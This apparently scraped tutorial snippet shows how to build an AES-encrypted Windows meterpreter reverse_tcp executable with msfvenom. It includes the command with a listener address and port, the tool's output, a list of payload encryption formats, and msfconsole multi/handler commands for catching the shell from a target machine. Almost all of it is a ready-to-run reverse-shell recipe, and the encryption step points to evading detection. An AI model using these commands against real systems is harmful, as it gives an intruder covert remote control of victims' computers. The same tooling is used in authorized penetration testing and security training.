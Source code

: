 $ msfvenom --encrypt aes256 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
[-] No arch selected, selecting arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 341 bytes  
Final size of exe file: 73802 bytes  
List of Encrypt methods  
$ msfvenom --list encrypt  
  
Framework Encryption Formats [--encrypt ]  
================================================  
  
    Name  
    ----  
    aes256  
    base64  
    rc4  
    xor  
How to Use these Paylaods in MSFConsole  
You can get the connect to the target machine using msfconsole and metasploit handler.  
  
# msfconsole commands  
msf> use exploit/multi/handler  
msf> set PAYLOAD  
msf> set RHOST  
msf> set LHOST  
msf> set LPORT  
msf> exploit -j
